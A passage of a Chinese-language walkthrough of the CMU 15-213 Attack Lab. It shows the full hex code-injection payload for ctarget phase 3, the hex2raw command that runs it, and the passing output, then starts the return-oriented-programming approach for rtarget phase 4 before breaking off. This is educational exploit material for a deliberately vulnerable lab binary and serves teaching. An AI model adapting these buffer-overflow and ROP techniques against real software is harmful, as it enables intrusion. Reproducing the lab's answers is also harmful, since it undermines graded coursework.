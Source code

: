 因此phase3的注入代码就应为：

```0
48 c7 c7 a8 dc 61 55 
68 fa 18 40 00 
c3
00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 00
```
将字符串保存为touch3.txt，并执行`./hex2raw < touch3.txt | ./ctarget -q`
得到返回结果

```0
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```
## Phase4 - RTarget
> 不同于ctarget只需要注入代码于栈中，rtarget因为栈的初始位置随机，且在栈内运行代码时会报Segmentation Fault，因此无法采用简单注入代码的方式。

首先先观察touch2的函数部分：

```0
void touch2(unsigned val){  
  vlevel = 2; /* Part of validation protocol */ 
  if (val == cookie) {
   printf("Touch2!: You called touch2(0x%.8x)\n", val);
   validate(2);
   } else {
   printf("Misfire: You called touch2(0x%.8x)\n", val);
   fail(2);
   }
  exit(0);
 }
```
函数要实现一个val == cookie，传入val的方式也很简单：
```0
popq %rax # 将栈顶内容移入rax寄存器
movq %rax, %rdi # 数据放入rdi寄存器作为val
```
查询实验文档发现对应的指令为：
```0
popq %rax # 58
movq %rax, %rdi # 48 89 c7
```
在rtarget的start_farm至mid_farm中可以找到：
